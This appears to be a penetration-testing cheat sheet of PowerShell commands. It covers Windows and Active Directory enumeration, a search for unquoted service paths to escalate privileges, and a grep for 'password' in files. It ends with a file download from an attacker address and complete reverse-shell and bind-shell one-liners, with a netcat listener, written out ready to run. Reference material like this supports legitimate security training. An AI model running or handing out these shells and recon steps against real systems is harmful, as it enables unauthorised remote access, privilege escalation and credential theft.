### Get installed software
Get-WmiObject -Class Win32_Product

### Get Antivirus Product Status
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

### In table format, display processes and include the CommandLine, ProcessName, and SessionID. Filter to show SessionID of 2 and ProcessName of "svchost.exe" only. Sort the results alphabetically by CommandLine.
gps | Select-Object -Property ProcessName,SessionID | Sort-Object -Property ProcessName -Descending | Where-Object SessionID -EQ 2 | Where-Object ProcessName -EQ svchost.exe | Format-Table

### Services with unquoted executable paths that start automatically can lead to escalating privileges. How many services fit that description on this machine?
Get-WmiObject -class Win32_Service -Property StartMode,PathName | Where {$_.StartMode -EQ "Auto" -and $_.PathName -notlike '"*'} | select StartMode,PathName

### Get current logged in user
query user /server:$server
Get-WmiObject -Class win32_computersystem
(Get-CimInstance -ClassName Win32_ComputerSystem).Username
(Get-WMIObject -ClassName Win32_ComputerSystem).Username


### Get file under path using hash value
Get-FileHash -Path C:\Windows\System32\* -Algorithm MD5 | findstr /i "6CECC33A62E935F5E8665B9597479A36"

### Find string in txt files under path by "password" string
Select-String -Path C:\Windows\System32\*.txt -Pattern 'password'

### Powershell to get shell from 192.168.79.79 to 192.168.79.80(username:offensive)
192.168.79.79:Enable-PSRemoting,Set-Item wsman:\localhost\client\trustedhosts 192.168.79.80,Enter-PSSession -ComputerName 192.168.79.80 -Credential offensive

### Domain
###### Domain Users and Groups
Get-ADUser Jim  
Get-ADUSer -filter *  
Get-ADUser Morgan -Properties *(get full info of aduser)  
Get-ADComputer APPSRV01  
Get-ADGroup -filter 'GroupScope -eq Global/Domain Local/Universal'  
Get-ADGroup -filter * -properties * |select SAMAccountName, Description|Export-Csv adGroupList.csv  

###### Enumerate Domain group member
Get-ADGroupMember ThirdGroup -recursive 

### Get windows firewall rules
Get-NetFirewallRule

### Retrieve domain user full info
Get-ADUser -Identity Susan -Properties "*"

### Retrieve domain computer full info
Get-AdComputer -Identity APPSRV01 -Properties *

### display all loaded functions
dir function:

### display one specific module location
dir (Get-Module -ListAvailable FlagModule).ModuleBase

### download file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

### reverse shell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
sudo nc -lnvp 443
```
### bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
nc -nv 10.11.0.22 443
```
